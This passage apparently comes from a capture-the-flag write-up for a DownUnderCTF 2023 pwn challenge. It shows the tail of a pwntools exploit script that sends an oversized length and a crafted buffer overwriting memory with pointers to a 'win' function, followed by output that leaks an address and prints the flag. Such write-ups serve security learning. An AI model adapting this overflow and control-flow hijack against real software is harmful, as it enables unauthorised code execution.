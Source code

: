 ```python
r.send(p32(6)+p64(127)) # tag str from
r.send(b'a'*127)

r.send(p32(7)+p64(0xffffffffffffffff))
r.send(b'\x30'*(0x4b0-0x18-0x80-0x10+1)+p32(0x5050)+b'\x00\x00\x00\x00'+p64(win)*4)

r.interactive()
```

```plain
% python3 ee.py
[+] Opening connection to 2023.ductf.dev on port 30011: Done
view_mail
\x00\x00\x0\x00\x00\x00\x00\x00\x00\x00username
\x00\x00\x0\x00\x00\x00\x00\x00\x00\x00password
0x55acf3c0cef6
win : 0x55acf3c0c26e
view_mail
view_mai\x00\x00\x0\x00\x00\x00\x00\x00\x00\x00username
\x00\x00\x0\x00\x00\x00\x00\x00\x00\x00password
[*] Switching to interactive mode
\x00\x00\x00\x00\xce\xc1\xf3\xacU\x00\x00DUCTF{y0uv3_g0t_ma1l_and_1ts_4_flag_cada60be8ab71a}
```